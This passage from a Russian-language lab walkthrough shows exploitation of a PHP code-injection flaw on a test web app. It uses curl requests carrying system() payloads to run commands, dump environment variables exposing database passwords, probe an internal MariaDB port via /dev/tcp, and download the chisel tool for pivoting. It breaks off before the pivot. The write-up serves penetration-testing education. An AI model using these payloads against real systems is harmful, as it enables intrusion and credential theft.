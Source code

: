 Проверим от имени какого пользователя запущено web-приложение, для этого
выполним команду `id`:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000(web) gid=1000(web) groups=1000(web)
  <br>
```

Теперь получим список переменных окружения:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('env');"
  <h1> Hello world!</h1>
  ...
  MARIADB_DATABASE=production
  MARIADB_HOSTNAME=mariadb
  MARIADB_ROOT_PASSWORD=strongpassword
  MARIADB_PASSWORD=verystrongpassword
  MARIADB_USER=prod
  ...
  <br>
```

Как видим из листинга, в переменных окружения имеется конфигурация соединения
с БД сервером. Да же есть hostname этого сервера `MARIADB_HOSTNAME`. Предположительно
запущенного то же в докере на том же хосте. Проверим имеется ли сетевой доступ
до этого хоста:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('timeout 1 bash -c \'cat < /dev/null > /dev/tcp/mariadb/3306\' && echo Open || echo Closed');"
  <h1> Hello world!</h1>
  Open
  <br>
```

Что бы не мучиться с пробросом DNS, определим IP адрес сервера mariadb:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('getent hosts mariadb');"
  <h1> Hello world!</h1>
  172.18.0.2      mariadb
  <br>
```

Как мы видим у web-приложения есть сетевая связанность с сервером БД, что
логично. Так в docker-контейнере нет приложения для работы с сервером БД, а
запрограммировать приложение на PHP для того что бы сделать dump базы данных
мне лень. Воспользуемся техникой `pivoting` для получения доступа к БД.
Воспользуемся приложением [chisel](https://github.com/jpillora/chisel):
```
vagrant@hacker:~$ curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output chisel.gz
vagrant@hacker:~$ gzip -d chisel.gz
vagrant@hacker:~$ chmod +x chisel
```
